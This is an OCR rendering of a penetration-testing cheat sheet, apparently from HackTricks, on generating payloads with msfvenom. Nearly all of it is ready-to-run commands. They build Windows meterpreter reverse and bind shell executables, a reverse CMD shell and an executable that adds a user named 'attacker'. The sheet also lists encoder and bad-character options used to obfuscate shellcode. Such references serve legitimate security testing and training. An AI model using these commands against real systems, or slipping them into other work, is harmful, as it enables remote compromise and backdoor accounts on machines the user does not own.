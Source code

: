 source: https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom#listing

<pre> msfvenom -p <PAYLOAD> -e <ENCODER> -f <FORMAT> -i <ENCODE COUNT> LHOST=<IP> </pre>
One can also use the -a to specify the architecture or the --platform

**Listing**
<pre>msfvenom -l #Payloads</pre>
<pre>msfvenom -l encoders #Encoders </pre>

**Common params when creating a shellcode**

PrependSetuid=True #Use this to create a shellcode that will execute something with SUID
<pre> -b "\x00\x0a\x0d" </pre>
<pre> -f c </pre>
<pre> -e x86/shikata_ga_nai -i 5 </pre>
<pre>EXITFUNC=thread </pre>
<pre> PrependSetuid=True #Use this to create a shellcode that will execute something with SUID </pre>


**Windows**
---
**Reverse Shell**
<pre>msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > reverse.exe </pre>
**Bind Shell*
<pre>msfvenom -p windows/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f exe > bind.exe </pre>
**Create User**
<pre>msfvenom -p windows/adduser USER=attacker PASS=attacker@123 -f exe > adduser.exe </pre>
**CMD Shell*
<pre> msfvenom -p windows/shell/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > prompt.exe </pre>
<pre> </pre>
<pre> </pre>
<pre> </pre>
<pre> </pre>
